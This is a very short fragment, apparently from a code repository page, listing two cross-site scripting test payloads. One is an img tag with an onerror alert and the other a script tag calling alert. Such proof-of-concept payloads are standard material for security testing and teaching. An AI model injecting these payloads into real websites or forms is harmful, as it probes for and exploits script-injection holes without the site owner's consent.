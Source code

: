 ### List of XSS Payloads:
### ----------------------
```
<img src=x onerror=alert(document.domain)>
<script>alert(1);</script>
```
